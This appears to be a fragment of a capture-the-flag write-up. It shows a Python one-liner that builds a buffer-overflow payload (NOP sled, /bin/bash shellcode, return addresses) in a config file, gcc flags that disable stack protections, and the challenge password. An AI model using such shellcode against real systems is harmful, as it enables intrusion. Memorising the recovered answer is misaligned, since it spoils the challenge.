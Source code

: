 ```
*UPDATE:* I'm dumb!

python -c 'print("USERNAME=" + "\x90" * 103 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x60\xb1\x04\x08" + "\x93\xf6\xff\xbf" * 12 )' > config

(let's repeat the address because some buffers probably needed to have a real address. I didn't bother to check )

*BOOM!*


python -c 'print("USERNAME=" + "\x90" * 103 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x60\xb1\x04\x08" + "\x93\xf6\xff\xbf" * 12 )' > config


password
h8Q!2)3=9"51

--------------------------------------------------------------------------------
### Resources

*Build*
```
gcc -m32 -Wall -no-pie -fno-stack-protector -z execstack -g ch10.c -o ch10 
```

*Shellcode*
```

```
